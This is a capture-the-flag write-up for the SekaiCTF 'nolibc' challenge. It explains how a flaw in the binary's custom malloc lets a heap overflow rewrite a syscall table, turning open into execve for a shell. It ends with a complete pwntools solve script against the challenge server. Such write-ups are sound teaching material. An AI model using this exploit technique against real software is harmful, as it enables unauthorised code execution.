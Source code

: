 # sekai ctf
## nolibc
### hint
```
No libc means no vulnerability right?!  
  
Author: Marc  
```
The challenge comes with a binary, and is exploited through a netcat connection
### premise
The challenge is a string data base app: you can register an account, log in, add and delete strings, save the strings to a file, and read the strings in from a file. However, instead of being linked to libc, all the functions are implemented ad-hoc: There are implementations for getch, malloc, free, open, close, puts, and so on.
### interesting parts
The first thing I poked around was how all the IO operations worked. After all, theres a read file function, which could be useful getting the flag (which is stored in a file). Sadly, there is a check in there fore if the file name has "flag" in it, so thats a no go. But, something interesting I saw while reading the assembly for how it actually read the file was this:  
<img src="/resources/syscall_oddity.png"/>  
We're moving a value from RAM to do syscalls. Looking into were this value is, we find this:  
<img src="/resources/syscall_location.png"/>  
going up from this, to find what the 0s are, reveals...  
<img src="/resources/buffer_reveal.png"/>  
which gives us a good place to start looking. If we can overrun the heap, we can overwrite syscalls. To ensure this is a good plan of attack, I looked into the syscalls themselves for a good one. `open` appeared to be usable: it's used in the read/write file functionalities, and it accepts a string we control as it's first argument (%rax). It's other 2 arguments (%rsi and %rdx) were also both set to 0 by the read file function, which means it can be replaced with execve and passed `/bin/sh` to get a shell
### malloc issues
The first thing to note is how it does a lot of things in the "heap": It creates a struct for all the user data, including password, username, and the strings added to the user (up to 2047 or 0x7ff), and of course the strings themselves (and all the buffers to read in the strings). This gives us some idea to look at the malloc and free implementations, and from there we can start finding some odd behavior. Below is the ghidra output for malloc:
```c
ulong * malloc(int size) {
  uint rounded_size;
  int *next_block;
  ulong *last_block;
  ulong *curr_block;
  
  if (size != 0) {
    rounded_size = size + 0xfU & 0xfffffff0;
    last_block = (ulong *)0x0;
    for (curr_block = malloc_head; curr_block != (ulong *)0x0; curr_block = (ulong *)curr_block[1]) {
      if ((int)rounded_size <= *(int *)curr_block) {
        if ((long)(int)rounded_size + 0x10U <= (ulong)(long)*(int *)curr_block) {
          next_block = (int *)((long)curr_block + (long)(int)rounded_size + 0x10);
          *next_block = (*(int *)curr_block - rounded_size) + -0x10;
          *(ulong *)(next_block + 2) = curr_block[1];
          curr_block[1] = (ulong)next_block;
          *(uint *)curr_block = rounded_size;
        }
        if (last_block == (ulong *)0x0) {
          malloc_head = (ulong *)curr_block[1];
        }
        else {
          last_block[1] = curr_block[1];
        }
        return curr_block + 2;
      }
      last_block = curr_block;
    }
  }
  return (ulong *)0x0;
}
```
Lets break down the algorithm:
1. Round the size up to the nearest 0x10
2. Loop through the blocks past the current malloc_head in the singly linked list of empty blocks
3. If the current blocks size is greater than or equal to the rounded size, we will return a block
4. If the current blocks size is greater than the rounded size + the malloc metadata size, then we need to create a new free block, which we do at the rounded size + 0x10. This block will have a size equal to whatever the current blocks size is, minus the data we allocated and the metadata we need. Set teh size of this block to the rounded size (so we won't do this again if we allocate teh same size and this block is free)
5. Remove the block from the empty block list
6. Return the original block whose size was greater or equal to teh size we wanted to allocate

The problem with this algorithm is that it assumes the only time the rounded size will be equal to the current block size but the rounded size plus the metadata size will be greater than it is if the block has already been used, or if there isn't enough space to make another block. However, if malloc_head is at the end of the malloc buffer, then the size of it will be 0x10: the size of the block includes metadata, so we can make an allocation 0x10 bytes long and edit past the buffer when creating a string. We know it is possible to fill the malloc buffer: we can wreite 0x7ff strings, each of length 0x100, which is *much* greater than the maximum of 0x10000 that we are given.  

From the previous section, we know this means that we can override syscalls, and open file specifically, which means its time to start writing an exploit.
### the exploit
I drew an explanatory graphic below to describe the final exploit:
```
Goal: Allocate so that the last meta has size 0x10
lets say our malloc buffer looks like

 0x08 0x10 0x18 0x20 0x28 0x30 0x38 0x40 RD   WR   OP
--------------------------------------------------------
|0x40| 0x0|????|????|????|????|????|????| 0x0| 0x1| 0x2|
--------------------------------------------------------

Then allocate 0x20 bytes (0x30 total, including meta)
 0x08 0x10 0x18 0x20 0x28 0x30 0x38 0x40 RD   WR   OP
--------------------------------------------------------
|0x20|0x18|0x41|0x41|0x41|0x41|0x10| 0x0| 0x0| 0x1| 0x2|
--------------------------------------------------------

Then allocate 0x0F bytes (0x1F total, including meta)
This will overwrite the syscalls. So, we make our string `0x00 0x01 0x3b` to overwrite the open syscall
 0x08 0x10 0x18 0x20 0x28 0x30 0x38 0x40 RD   WR   OP
--------------------------------------------------------
|0x20|0x18|0x41|0x41|0x41|0x41|0x0F| 0x0| 0x0| 0x1|0x3b|
--------------------------------------------------------
```
This seems like it will work, but there's one issue: the read file function needs to allocate 0x7fff to work! Luckily, there's a delete string function. I had issues with this just running through in order, so I opted to do it backwords, which I knew would collect them into a continuous block of memory that read file could use. 

The other thing we need to do is find the size we need to allocate. That can be done through GDB, simply run up to the starting point of the heap filling and print the current heap size. This is harder than it sounds because the binary has no debug symbols and is ASLR, and is where I spent a lot of time, but it can be done by disassembling whatever function you're in and comparing it to Ghidra disassembly until you find malloc, and from there getting malloc_head and it's pointer (or, really, whatever size past malloc_head that's smallest and has a next pointer of 0).

With that, all the issues from running the exploit are done, so here's the final solve script:
```py
from pwn import *

r = remote("nolibc.chals.sekai.team", 1337, ssl=True)

def clean():
    print(r.recvuntil(b"Choose an option:"));

def get_malloced(str):

    rounded_size = (len(str) + 0xf) & 0xfffffff0
    return rounded_size + 0x10

total_size = 0x0000bf80

r.sendline(b"2")
r.sendline(b"asd")
r.sendline(b"asd")

r.sendline(b"1")
r.sendline(b"asd")
r.sendline(b"asd")
print(r.recvuntil(b"asd!"))

clean()

for i in range(0, total_size - 0x10 - 0x110, 0x110):
    r.sendline(b"1")
    r.sendline(b"255")
    r.sendline(b"a" * 255)
    print(i, hex(total_size - i))
    clean()

rem = ((total_size-0x10) % 0x110) - 0x20
print(rem)

r.sendline(b"1")
r.sendline(str(rem).encode())
r.sendline(b"a" * rem)
clean()

total = 180

r.sendline(b"1")
r.sendline(b"15")
r.sendline(p32(0x0) + p32(0x1) + p32(0x3b) + p32(0x3)[:3])
clean()

for i in range(total, 0, -1):
    r.sendline(b"2")
    r.sendline(str(i).encode())
    clean()

print(rem)
r.interactive()
```